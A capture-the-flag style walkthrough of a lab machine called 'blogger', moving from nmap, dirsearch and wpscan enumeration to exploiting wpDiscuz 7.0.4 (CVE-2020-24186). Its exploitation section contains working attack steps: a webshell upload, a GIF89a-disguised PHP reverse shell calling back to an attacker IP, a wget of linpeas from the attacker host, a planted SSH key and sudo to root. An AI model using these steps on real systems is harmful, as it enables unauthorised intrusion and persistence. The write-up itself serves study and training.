



---
tags:
  - linux
  - hard
---
## Nmap scan

```shell
$ nmap -sV -sC -p- blogger --min-rate=10000
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-26 02:52 EDT
Nmap scan report for blogger (192.168.182.217)
Host is up (0.088s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 95:1d:82:8f:5e:de:9a:00:a8:07:39:bd:ac:ad:d3:44 (RSA)
|   256 d7:b4:52:a2:c8:fa:b7:0e:d1:a8:d0:70:cd:6b:36:90 (ECDSA)
|_  256 df:f2:4f:77:33:44:d5:93:d7:79:17:45:5a:a1:36:8b (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Blogger | Home
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.83 seconds
```

## Enumeration

We found directories. Lots of them.

```shell
$ dirsearch -u http://blogger
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/reports/http_blogger/_25-05-26_02-53-42.txt

Target: http://blogger/

[02:53:42] Starting: 
[02:53:47] 301 -  299B  - /js  ->  http://blogger/js/
[02:53:48] 403 -  272B  - /.ht_wsr.txt
[02:53:48] 403 -  272B  - /.htaccess.save
[02:53:48] 403 -  272B  - /.htaccess_sc
[02:53:48] 403 -  272B  - /.htaccess.bak1
[02:53:48] 403 -  272B  - /.htaccess.orig
[02:53:48] 403 -  272B  - /.htaccess_extra
[02:53:48] 403 -  272B  - /.htaccess.sample
[02:53:48] 403 -  272B  - /.htaccess_orig
[02:53:48] 403 -  272B  - /.htaccessBAK
[02:53:48] 403 -  272B  - /.htaccessOLD
[02:53:48] 403 -  272B  - /.htaccessOLD2
[02:53:48] 403 -  272B  - /.htm
[02:53:48] 403 -  272B  - /.html
[02:53:48] 403 -  272B  - /.htpasswd_test
[02:53:48] 403 -  272B  - /.htpasswds
[02:53:48] 403 -  272B  - /.httr-oauth
[02:53:50] 403 -  272B  - /.php3
[02:53:50] 403 -  272B  - /.php
[02:54:03] 301 -  303B  - /assets  ->  http://blogger/assets/
[02:54:03] 200 -  468B  - /assets/
[02:54:09] 301 -  300B  - /css  ->  http://blogger/css/
[02:54:15] 301 -  303B  - /images  ->  http://blogger/images/
[02:54:15] 200 -  686B  - /images/
[02:54:17] 200 -  596B  - /js/
[02:54:29] 403 -  272B  - /server-status
[02:54:29] 403 -  272B  - /server-status/
```

Upon exploring the assets directory, we find that the fonts directory inside it has a blog directory, which leads us to a whole new WordPress site. However, the site appears somewhat broken and the internal links make references to "blogger.pg"

```shell
sudo echo "192.168.182.217 blogger.pg" >> /etc/hosts
```



This calls for a wpscan

```shell
wpscan --url http://blogger.pg/assets/fonts/blog/ --plugins-detection aggressive
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://blogger.pg/assets/fonts/blog/ [192.168.182.217]
[+] Started: Mon May 26 05:14:27 2025

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.18 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://blogger.pg/assets/fonts/blog/xmlrpc.php
 | Found By: Link Tag (Passive Detection)
 | Confidence: 100%
 | Confirmed By: Direct Access (Aggressive Detection), 100% confidence
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://blogger.pg/assets/fonts/blog/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://blogger.pg/assets/fonts/blog/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://blogger.pg/assets/fonts/blog/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.9.8 identified (Insecure, released on 2018-08-02).
 | Found By: Rss Generator (Passive Detection)
 |  - http://blogger.pg/assets/fonts/blog/?feed=rss2, <generator>https://wordpress.org/?v=4.9.8</generator>
 |  - http://blogger.pg/assets/fonts/blog/?feed=comments-rss2, <generator>https://wordpress.org/?v=4.9.8</generator>

[+] WordPress theme in use: poseidon
 | Location: http://blogger.pg/assets/fonts/blog/wp-content/themes/poseidon/
 | Last Updated: 2025-01-04T00:00:00.000Z
 | Readme: http://blogger.pg/assets/fonts/blog/wp-content/themes/poseidon/readme.txt
 | [!] The version is out of date, the latest version is 2.4.1
 | Style URL: http://blogger.pg/assets/fonts/blog/wp-content/themes/poseidon/style.css?ver=2.1.1
 | Style Name: Poseidon
 | Style URI: https://themezee.com/themes/poseidon/
 | Description: Poseidon is an elegant designed WordPress theme featuring a splendid fullscreen image slideshow. The...
 | Author: ThemeZee
 | Author URI: https://themezee.com
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 2.1.1 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://blogger.pg/assets/fonts/blog/wp-content/themes/poseidon/style.css?ver=2.1.1, Match: 'Version: 2.1.1'

[+] Enumerating All Plugins (via Aggressive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] akismet
 | Location: http://blogger.pg/assets/fonts/blog/wp-content/plugins/akismet/
 | Last Updated: 2025-05-07T16:30:00.000Z
 | Readme: http://blogger.pg/assets/fonts/blog/wp-content/plugins/akismet/readme.txt
 | [!] The version is out of date, the latest version is 5.4
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://blogger.pg/assets/fonts/blog/wp-content/plugins/akismet/, status: 200
 |
 | Version: 4.0.8 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://blogger.pg/assets/fonts/blog/wp-content/plugins/akismet/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://blogger.pg/assets/fonts/blog/wp-content/plugins/akismet/readme.txt

[+] wpdiscuz
 | Location: http://blogger.pg/assets/fonts/blog/wp-content/plugins/wpdiscuz/
 | Last Updated: 2025-05-10T13:06:00.000Z
 | Readme: http://blogger.pg/assets/fonts/blog/wp-content/plugins/wpdiscuz/readme.txt
 | [!] The version is out of date, the latest version is 7.6.30
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://blogger.pg/assets/fonts/blog/wp-content/plugins/wpdiscuz/, status: 200
 |
 | Version: 7.0.4 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://blogger.pg/assets/fonts/blog/wp-content/plugins/wpdiscuz/readme.txt

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:02 <======================================> (137 / 137) 100.00% Time: 00:00:02

[i] No Config Backups Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Mon May 26 05:46:54 2025
[+] Requests Done: 110958
[+] Cached Requests: 7
[+] Data Sent: 32.755 MB
[+] Data Received: 15.184 MB
[+] Memory used: 447.211 MB
[+] Elapsed time: 00:32:27
```

Don't worry, that took just 32 minutes and 27 seconds.

Nevertheless, a vulnerable plugin, which was seemingly elusive from normal usage of wpscan, was found.
## Exploitation

```shell
searchsploit wpdiscuz
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
Wordpress Plugin wpDiscuz 7.0.4 - Arbitrary File Upload (Unauthenticated)          | php/webapps/49962.sh
WordPress Plugin wpDiscuz 7.0.4 - Remote Code Execution (Unauthenticated)          | php/webapps/49967.py
Wordpress Plugin wpDiscuz 7.0.4 - Unauthenticated Arbitrary File Upload (Metasploi | php/webapps/49401.rb
----------------------------------------------------------------------------------- ---------------------------------
```

Seems we already have the exploit with us. And the version perfectly matches. But lets read more about it. 

https://www.acunetix.com/vulnerabilities/web/wordpress-plugin-comments-wpdiscuz-arbitrary-file-upload-7-0-4/

Seems like an Arbitrary File Upload in this plugin's "comments" feature.

```shell
cp /usr/share/exploitdb/exploits/php/webapps/49967.py .
```

```shell
$ python 49967.py 
[+] Specify an url target
[+] Example usage: exploit.py -u http://192.168.1.81/blog -p /wordpress/2021/06/blogpost
[+] Example help usage: exploit.py -h
```

We will require an existing blog post to abuse this feature. We will use http://blogger.pg/assets/fonts/blog/?p=27.

```shell
$ python 49967.py -u http://blogger.pg/assets/fonts/blog -p /?p=27
---------------------------------------------------------------
[-] Wordpress Plugin wpDiscuz 7.0.4 - Remote Code Execution
[-] File Upload Bypass Vulnerability - PHP Webshell Upload
[-] CVE: CVE-2020-24186
[-] https://github.com/hevox
--------------------------------------------------------------- 

[+] Response length:[58872] | code:[200]
[!] Got wmuSecurity value: 83695828d7
[!] Got wmuSecurity value: 27 

[+] Generating random name for Webshell...
[!] Generated webshell name: dhxbvumbwujrple

[!] Trying to Upload Webshell..
[+] Upload Success... Webshell path:url&quot;:&quot;http://blogger.pg/assets/fonts/blog/wp-content/uploads/2025/05/dhxbvumbwujrple-1748255012.4834.php&quot; 
```

The exploit worked, but the shell was having issues. We can manually go to the php shell using the link.

http://blogger.pg/assets/fonts/blog/wp-content/uploads/2025/05/fgdgdwlvisugaeo-1748254915.6219.php?cmd=whoami



I found another exploit: [GitHub - meicookies/CVE-2020-24186: WpDiscuz 7.0.4 Arbitrary File Upload Exploit](https://github.com/meicookies/CVE-2020-24186) since I wasn't unable to run anything beyond basic commands.

Basically, put any php code (I used `php-reverse-shell.php`) but give it the file header "GIF89a", like so

```php
GIF89a
<?php
set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.45.169';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
$chunk_size = 1400;
<...>
```

And upload it in the comment section...



To catch a reverse shell

```shell
$ nc -vlnp 4444
listening on [any] 4444 ...
connect to [192.168.45.169] from (UNKNOWN) [192.168.182.217] 56688
Linux ubuntu-xenial 4.4.0-210-generic #242-Ubuntu SMP Fri Apr 16 09:57:56 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 12:00:27 up  3:01,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ cd /tmp && wget http://192.168.45.169:8000/linpeas.sh && chmod +x linpeas.sh
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ubuntu-xenial:/tmp$ ./linpeas.sh -ar
```

linpeas broke before trying to bruteforce using su. We can `su`as `vagrant` with the password `vagrant`.

```shell
vagrant@ubuntu-xenial:~$ echo "my_ssh_rsa_public_key" >> ~/.ssh/authorized_keys
```

```shell
ssh vagrant@blogger.pg
The authenticity of host 'blogger.pg (192.168.182.217)' can't be established.
ED25519 key fingerprint is SHA256:NG4M7TDDfJSG7viJACEr0qYUjhu1sWu0BtBpO+Hzcng.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'blogger.pg' (ED25519) to the list of known hosts.
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-210-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

32 packages can be updated.
1 of these updates is a security update.
To see these additional updates run: apt list --upgradable


Last login: Fri Apr  2 08:24:47 2021 from 10.0.2.2
vagrant@ubuntu-xenial:~$ sudo -l
Matching Defaults entries for vagrant on ubuntu-xenial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User vagrant may run the following commands on ubuntu-xenial:
    (ALL) NOPASSWD: ALL
```

Seems we have our root user :)

```shell
vagrant@ubuntu-xenial:~$ sudo -i
root@ubuntu-xenial:~# cat proof.txt
```
